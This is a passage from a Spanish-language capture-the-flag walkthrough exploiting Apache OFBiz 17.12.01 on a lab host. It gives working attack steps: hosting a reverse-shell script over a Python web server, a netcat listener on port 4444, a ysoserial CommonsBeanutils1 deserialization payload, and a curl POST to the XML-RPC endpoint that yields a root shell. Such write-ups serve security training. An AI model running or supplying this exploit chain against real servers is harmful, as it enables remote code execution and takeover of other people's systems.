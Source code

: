 ```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $authbind python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.238 - - [12/Oct/2021 23:10:44] "GET /rev.sh HTTP/1.1" 200 -
```

Si no has recibido esta **petición en tu servidor de python**, vuelve a intentar tramitar la petición con `curl` o comprueba que has introducido el payload en el sitio correcto.

## 7º Paso · Ponte en escucha con netcat por el puerto que configuraste en la reverse shell

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
```
## 8º Paso · Crea otro payload par ejecutar la reverse shell que previamente cargamos en el sistema

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ java -jar ysoserial-master-d367e379d9-1.jar CommonsBeanutils1 "bash /tmp/shell.sh" | base64 | tr -d "\n"
rO0ABXNyABdqYXZhLnV0aWwuUHJpb [...]
```
## 9º Paso · Envía otra petición con curl para ejecutar nuestro payload

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ curl https://127.0.0.1:8443/webtools/control/xmlrpc -X POST -v -d '<?xml version="1.0"?><methodCall><methodName>ProjectDiscovery</methodName><params><param><value><struct><member><name>test</name><value><serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">AQUI_PON_TU_PAYLOAD_PARA_EJECUTAR_LA_REVERSE_SHELL</serializable></value></member></struct></value></param></params></methodCall>' -k  -H 'Content-Type:application/xml'
```

## 10º Paso · Comprueba tu listener y disfruta de la reverse shell

```bash
┌─[✗]─[z3r0byte@z3r0byte]─[~]
└──╼ $ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.238 48950
bash: cannot set terminal process group (30): Inappropriate ioctl for device
bash: no job control in this shell
root@586273933ab3:/usr/src/apache-ofbiz-17.12.01#
```

---
